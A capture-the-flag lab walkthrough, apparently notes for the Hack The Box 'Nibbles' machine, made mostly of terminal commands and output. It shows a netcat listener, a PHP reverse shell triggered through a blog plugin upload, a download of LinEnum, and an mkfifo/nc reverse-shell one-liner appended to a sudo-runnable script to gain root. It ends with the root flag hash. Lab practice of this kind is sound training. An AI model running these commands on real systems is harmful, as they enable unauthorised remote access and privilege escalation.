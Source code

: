 nc listener  
nc -lvnp 9443  

make a friendlier shell  
python3 -c 'import pty; pty.spawn("/bin/bash")'  

activate reverse shell  
curl http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php

##### enum using script
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh  

sudo python3 -m http.server 8080  

wget http://10.10.14.36:8080/LinEnum.sh  
```bash
- - [11/May/2024 17:29:45] "GET /LinEnum.sh HTTP/1.1" 200 -

nibbler@Nibbles:/home/nibbler$ ls -la 
-rw-r--r-- 1 nibbler nibbler 46631 May 11 12:26 LinEnum.sh

nibbler@Nibbles:/home/nibbler$ chmod +x LinEnum.sh

nibbler@Nibbles:/home/nibbler$ ls -l /home/nibbler/personal/stuff/monitor.sh
ls -l /home/nibbler/personal/stuff/monitor.sh
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 /home/nibbler/personal/stuff/monitor.sh


```

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 8443 >/tmp/f' | tee -a  /home/nibbler/personal/stuff/monitor.sh

 nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh \

sudo /home/nibbler/personal/stuff/monitor.sh

┌─[us-academy-2]─[10.10.14.36]─[htb-ac-1136328@htb-nnyvvnfeph]─[~]
└──╼ [★]$ nc -lvnp 8443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8443
Ncat: Listening on 0.0.0.0:8443
Ncat: Connection from 10.129.200.170.
Ncat: Connection from 10.129.200.170:35790.
# 

python3 -c 'import pty; pty.spawn("/bin/bash")'

root@Nibbles:/home# ls -la
ls -la
total 12
drwxr-xr-x  3 root    root    4096 Dec 10  2017 .
drwxr-xr-x 23 root    root    4096 Mar 12 09:51 ..
drwxr-xr-x  4 nibbler nibbler 4096 May 11 12:48 nibbler

root@Nibbles:~# cat root.txt
cat root.txt
de5e5d6619862a8aa5b9b212314e0cdd

```
